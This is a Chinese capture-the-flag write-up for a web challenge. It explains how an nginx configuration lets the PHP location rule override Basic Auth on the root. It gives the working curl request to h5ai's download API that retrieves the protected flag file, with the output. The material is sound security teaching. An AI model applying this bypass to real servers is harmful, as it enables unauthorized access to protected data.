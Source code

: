 # 超简易的网盘服务器

- 题目分类：web

- 题目分值：200

小 C 同学正因为手边的这块购买了方才三个月的 64GB 银土顿炫酷至尊飞速闪存盘的损坏而苦恼着。

其实自从听说，隔壁寝室发生了因为室友破解加密硬盘而发生了一系列不可描述的事情，小 C 同学就一直在盘算着一个新的主意！

“上云！都 2020 年了，再不上云就要被时代抛弃了！”，小 C 在心中终于做出了这样的决定，“把钱交给「银土顿」，还不如交给「奇葩云」呢，好歹还有 50% 的SLA 保证”。小 C 是一个雷厉风行的同学，他飞速的打开了「奇葩云」的网站，验证学生身份，并购买了一台学生服务器。

登录了服务器后台的小 C 开始思考技术方案：“听说 h5ai 搭建云盘的方案是不错的 ... 使用 Basic Auth 可以做访问控制，可以保护[根目录](http://202.38.93.111:10120/)下的文件不被非法的访问 ... 等等，有一些文件是可以被分享的，需要一个 [/Public](http://202.38.93.111:10120/Public) 目录来共享文件！”

三分钟后，小 C 同学完成了网盘的搭建。他想：“空着总不好，先得在云盘上放点东西！”。犹豫片刻，他掏出了自己珍藏了三个月的 flag 并上传到了云盘的[根目录](http://202.38.93.111:10120/)。

[打开/下载题目](http://202.38.93.111:10120/)

---

本题的源代码在 src 文件夹下（其实本题的大部分关键代码已经在题目中给出了）。

## 解法

其实题目文案说了那么多话，关键的提取出如下信息：
1. 本题是使用开源项目 [h5ai](https://larsjung.de/h5ai/) 搭建的网盘
2. flag 就在网盘的根目录下
3. 但是网盘根目录使用 Basic Auth 进行了访问控制
4. `/Public/` 目录却是公开的（没有访问控制）

具体怎么做的呢？ 通过阅读 `dockerfile` 和 `nginx.conf` 配置文件，我们就可以知道服务是如何进行部署的了。`dockerfile` 告诉我们，`/Public` 目录下的 h5ai 是根目录下的一个软连接。nginx.conf 告诉我们 / 设置了 Basic Auth 而 `/Public` 并没有。

这时候顶级黑客的同学们可能以为小 C 找到了一个未披露的 h5ai 项目的0day 并开始对 h5ai 进行代码审计了（似乎确实有顶级黑客！）。且慢，我们再多看一眼 `nginx.conf`：

```
    location / {
        auth_basic "easy h5ai. For visitors, please refer to public directory at `/Public!`";
        auth_basic_user_file /etc/nginx/conf.d/htpasswd;
    }

    location /Public {
        allow all;
        index /Public/_h5ai/public/index.php;
    }

    location ~ \.php$ {
             fastcgi_pass   127.0.0.1:9000;
             fastcgi_index  index.php;
             fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
             include        fastcgi_params;
    }
```

我们的访问控制漏掉了什么！Nginx 软件对于 location 指令匹配的优先级规则中，`location ~ \.php$` 规则比 `location /` 有更高的优先级！似乎 PHP 的 fastcgi 相关的代码并没有被访问控制所限制！我们可以直接执行根目录下受限的 PHP 代码，因此只需要调用 h5ai 项目中的“下载” api 即可！

具体获取下载的 api 其实有很多方法，直接的方法是直接审计 h5ai 的源代码，还有就是既然 Public 是开放的，直接点击下载`nginx.conf`并观察其 HTTP Request 并加以改造即可。最终构造的 EXP 和 flag 输出如下：

```
$ curl -X POST http://202.38.93.111:10120/_h5ai/public/index.php -d "action=download&as=Public.tar&type=php-tar&baseHref=%2F&hrefs=&hrefs%5B0%5D=%2Fflag.txt" -o -
flag.txt0000755000000000000000000000003013744647043007466 0ustar00flag{super_secure_cloud}
```

### 题外话：
1. 这题改编自小 C 亲身经历，经过了戏剧化处理！其实小 C 就用类似的配置搭建过网盘，并被众所周知代号为“单位虚数”同学指出了其中错误！这个事情提醒了小 C，哪怕自认为再熟悉 Nginx 和 PHP，对待安全问题还是要保持敬畏之心。
2. 小 C 同学注意到某讨论群里有“狐狸”同学说`“这题只是小 C 同学脑子不太好使（”`。这令小 C 非常不开心，并企图决定取消该同学本题得分！最终“单位虚数”同学驳回了小 C 的该提案。
3. h5ai 是一个非常好用的开源目录系统，本题大概有不少同学对其最新版本进行了审计。有发现新漏洞或者有其他功能建议意见的同学可以到[原项目](https://github.com/lrsjng/h5ai)下提PR。原项目是 MIT 协议开源的，因本题导致的相关安全风险，小 C 毫不知情、毫无关系，无任何道德义务、直接或者间接的法律责任。
